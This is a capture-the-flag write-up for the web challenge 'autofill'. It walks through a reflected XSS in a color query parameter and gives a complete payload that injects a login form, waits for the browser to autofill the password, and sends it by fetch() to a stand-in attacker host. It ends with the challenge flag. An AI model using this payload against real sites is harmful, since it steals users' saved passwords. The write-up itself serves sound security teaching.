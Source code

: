 # Writeup for `autofill`

|      author     | category | value |
|-----------------|----------|-------|
| Ixbixbam        | web      |  361  |

My colleague's web browser autofills his password whenever he loads a page. Can you find his password?

## Solution

<details>
<summary>Click here to reveal the solution!</summary>

### Walkthrough

The index page loads the color variable as a URL query parameter and adds it directly to the page's HTML, as can be seen in index.html:41 ```$("#app").html(`<div id="colorBox" style="background-color: ${color}"></div>`);```.
This means that we can achieve XSS by injecting HTML into the page. 
We can achieve a simple XSS by setting the color parameter to `blue"></div><img src=x onerror="alert(1)"><div style="color: blue`.

Unlike most XSS challenges we aren't trying to find the document's cookie, instead we are attempting to find the user's password which their browser autofills. To do this, we can dynamically add the login form's HTML to the page and wait 2 seconds for the user to interact with the page and for Chromium to fill the input with the password.

Note that `https://attacker.owned.server` will need be a website that you can see the logs for. You may want to use webhook.site.

Javascript to generate malicious URL: ```copy("http://localhost:3000/index.html?color=" + encodeURIComponent(`blue"></div><img src=x onerror="$(\`#color-name\`).html(\`<input type='username'></input><input type='password'></input>\`);setTimeout(()=>{fetch(\`https://attacker.owned.server?flag=\`+$(\`input[type=password]\`).val());},2000);"><div style="color: blue`))```.

Malicious URL:
https://autofill-web.k17.kctf.cloud/index.html?color=blue%22%3E%3C%2Fdiv%3E%3Cimg%20src%3Dx%20onerror%3D%22%24(%60%23color-name%60).html(%60%3Cinput%20type%3D'username'%3E%3C%2Finput%3E%3Cinput%20type%3D'password'%3E%3C%2Finput%3E%60)%3BsetTimeout(()%3D%3E%7Bfetch(%60https%3A%2F%2Fattacker.owned.server.com%3Fflag%3D%60%2B%24(%60input%5Btype%3Dpassword%5D%60).val())%3B%7D%2C2000)%3B%22%3E%3Cdiv%20style%3D%22color%3A%20blue

Note that when testing the program locally ensure to run the report page's docker container with --privileged.

### Flag(s)

- `K17{t1me_t0_s3tup_a_prim4ry_pa55w0rd}`

</details>
